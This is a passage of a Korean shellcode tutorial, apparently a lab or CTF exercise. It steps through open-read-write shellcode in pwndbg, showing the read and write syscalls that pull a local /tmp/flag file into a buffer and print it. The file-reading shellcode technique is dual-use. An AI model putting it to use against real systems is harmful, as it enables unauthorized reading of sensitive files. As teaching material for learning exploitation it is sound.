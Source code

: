 2. read(fd, buf, 0x30) (두번째 `syscall`전까지 실행하였을 때)

```gdb
─────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
*RAX  0x0
 RBX  0x0
 RCX  0x555555554619 (run_sh+31) ◂— mov    rdi, rax
 RDX  0x30
 RDI  0x3
 RSI  0x7fffffffdf18 ◂— 0xf0b5ff
 ...
 ──────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────
   0x555555554619 <run_sh+31>    mov    rdi, rax
   0x55555555461c <run_sh+34>    mov    rsi, rsp
   0x55555555461f <run_sh+37>    sub    rsi, 0x30
   0x555555554623 <run_sh+41>    mov    rdx, 0x30
   0x55555555462a <run_sh+48>    mov    rax, 0
 ► 0x555555554631 <run_sh+55>    syscall  <SYS_read>
        fd: 0x3 (/tmp/flag)
        buf: 0x7fffffffdf18 ◂— 0xf0b5ff
        nbytes: 0x30
...
```

"/tmp/flag"의 fd(0x3)에서 데이터를 0x30바이트만큼 읽어서 0x7fffffffdf18에 저장한다. <SYS_read>을 실행한 뒤 실행 결과를 x/s를 통해 확인한다.

```gdb
pwndbg> x/s 0x7fffffffdf18
0x7fffffffdf18:	"flag{this_is_open_read_write_shellcode!}\nFUUUU"
```

0x7fffffffdf18에 "/tmp/flag"의 내용이 저장된 것을 확인할 수 있다.

3. write(1, buf, 0x30) (세번째 `syscall`전까지 실행하였을 때)

```gdb
─────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
*RAX  0x1
 RBX  0x0
 RCX  0x555555554633 (run_sh+57) ◂— mov    rdi, 1
 RDX  0x30
 RDI  0x1
 RSI  0x7fffffffdf18 ◂— 'flag{this_is_open_read_write_shellcode!}\nFUUUU'
...
──────────────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────────────
   0x555555554623 <run_sh+41>    mov    rdx, 0x30
   0x55555555462a <run_sh+48>    mov    rax, 0
   0x555555554631 <run_sh+55>    syscall 
   0x555555554633 <run_sh+57>    mov    rdi, 1
   0x55555555463a <run_sh+64>    mov    rax, 1
 ► 0x555555554641 <run_sh+71>    syscall  <SYS_write>
        fd: 0x1 (/dev/pts/0)
        buf: 0x7fffffffdf18 ◂— 'flag{this_is_open_read_write_shellcode!}\nFUUUU'
        n: 0x30
...
```
